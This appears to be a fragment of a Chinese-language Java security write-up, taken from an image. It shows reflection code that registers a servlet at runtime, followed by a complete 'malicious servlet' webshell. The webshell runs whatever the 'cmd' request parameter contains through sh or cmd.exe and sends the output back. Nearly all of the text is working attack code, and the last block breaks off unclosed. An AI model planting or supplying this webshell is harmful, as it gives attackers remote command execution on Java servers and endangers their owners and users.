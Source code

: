 ```java
contextF.setAccessible(true);
Object context = contextF.get(obj);

Method registerServletM = (Method)context.getClass().getDeclaredMethod("registerServlet",String.class,String.class,String.class);
registerServletM.setAccessible(true);
registerServletM.invoke(context,"TestServlet","/TestServlet","TestServlet");

```

恶意servlet

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

@WebServlet("/TestServlet")
public class TestServlet extends HttpServlet {

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
    }
    @Override
    public ServletConfig getServletConfig() {
        return null;
    }
    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = servletResponse.getWriter();
        out.println(output);
        out.flush();
        out.close();
    }

    @Override
    public String getServletInfo() {
        return null;
    }
    @Override
    public void destroy() {
    }


```